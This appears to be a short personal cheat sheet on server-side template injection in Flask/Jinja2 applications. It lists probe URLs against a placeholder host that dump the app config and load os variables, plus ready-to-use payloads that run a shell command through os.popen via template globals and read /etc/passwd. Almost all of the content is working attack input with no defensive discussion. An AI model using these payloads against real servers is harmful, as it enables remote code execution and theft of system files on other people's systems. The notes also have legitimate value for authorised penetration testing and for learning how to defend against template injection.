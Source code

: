 # Flask Server Side Template Injection

## temp notes

[http://target.dom/{{1+1}](http://target.dom/%7B%7B1+1%7D)}
[http://target.dom/{{config.items()}](http://target.dom/%7B%7Bconfig.items()%7D)}

add os vars
[http://target.dom/{{config.from_object('os')}](http://target.dom/%7B%7Bconfig.from_object('os')%7D)}
[http://target.dom/{{config.items()}](http://target.dom/%7B%7Bconfig.items()%7D)}

[https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

- remote code execution
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}`
- read remote file
`{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`